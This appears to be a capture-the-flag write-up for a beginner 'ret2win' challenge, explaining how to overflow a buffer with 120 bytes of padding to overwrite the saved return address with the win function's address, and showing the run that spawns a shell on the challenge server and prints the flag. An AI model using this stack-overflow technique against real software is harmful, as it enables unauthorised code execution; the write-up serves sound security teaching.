

# Did someone say ret2win?

<p align="center">

</p>

Connecting to the remote instance we are given the relevant [source code](./utils/program.c) for this challenge. This challenge has a `win` challenge, which it is our goal to call.
```c
static void win(void) {
    char *const args[] = {
        "sh",
        NULL,
    };
    printf("Great job! Spawning a shell...\n");
    execve("/bin/sh", args, environ);
    exit(EXIT_SUCCESS);
}
```

We are given the address of the win function, and presented with some menu options.
```
Your goal is to overwrite the saved return address on the stack
The win function in the code is located at address: 0x401aa7
Return to the win function to get a shell


Google these terms for help:
- ret2win

Check out the pwntools cheat sheet at https://pwn101.tokle.dev

Good luck!

1. Fill buffer
2. Print stack frame
3. Trigger bug
4. Challenge description
5. [Quit]
>
```

If we choose option `2` we get the stack frame printed to us. The last line, at address `0x7ffed67b05b8` containing the value `00000000004022fc` is the saved return address of the function where our function `buggy` was called from (probably `main`). When we choose option `3`, which calls `return`, the saved return address is where the program start executing instructions from next. Therefore, if we overwrite this address with some other valid function address (like `win`), the program will start executing that function instead of the caller function.

```
   [address]        [binary data]        [ascii]        [variable]
                 +------------------+
 0x7ffed67b0540  | 0000000000000000 |   [........]  <---- struct file_data.buf
                 +------------------+
 0x7ffed67b0548  | 0000000000000000 |   [........]
                 +------------------+
 0x7ffed67b0550  | 0000000000000000 |   [........]
                 +------------------+
 0x7ffed67b0558  | 0000000000000000 |   [........]
                 +------------------+
 0x7ffed67b0560  | 7478742e74736574 |   [test.txt]  <---- struct file_data.path
                 +------------------+
 0x7ffed67b0568  | 0000000000000000 |   [........]
                 +------------------+
 0x7ffed67b0570  | 0000000000000000 |   [........]
                 +------------------+
 0x7ffed67b0578  | 0000000000000000 |   [........]
                 +------------------+
 0x7ffed67b0580  | 0000000000000000 |   [........]
                 +------------------+
 0x7ffed67b0588  | 0000000000000000 |   [........]
                 +------------------+
 0x7ffed67b0590  | 0000000000000000 |   [........]
                 +------------------+
 0x7ffed67b0598  | 0000000000000000 |   [........]
                 +------------------+
 0x7ffed67b05a0  | 0000000000000123 |   [#.......]  <---- struct file_data.size
                 +------------------+
 0x7ffed67b05a8  | 000000020040216c |   [l!@.....]
                 +------------------+
 0x7ffed67b05b0  | 00007ffed67b05e0 |   [..{.....]
                 +------------------+
 0x7ffed67b05b8  | 00000000004022fc |   [."@.....]
                 +------------------+
```

We know that the address of `win` is `0x401aa7`, so this is the address we need to overwrite the saved return address with. To reach the return address, we need to send 120 bytes of padding first, because the `file_data` struct i 100 bytes, and there is 20 bytes between the struct and the saved return address (you can count the number of lines until the last line of the printed stack, and multiple that by 8, 8*15=120). After the 120 bytes we will use `p64` from pwntools to convert the address of `win` into the correct bytes-format, and send this to the program. After we have sent the payload to the program, we can trigger the exploit by choosing option `3`.

A commented exploit script can be found in [solve.py](./solve.py).

```console
$ python3 solve.py
[+] Opening connection to pwn.tokle.dev on port 1339: Done
[*] Switching to interactive mode
Returning...
Great job! Spawning a shell...
$ cat flag.txt
flag{its_raining_shells}
```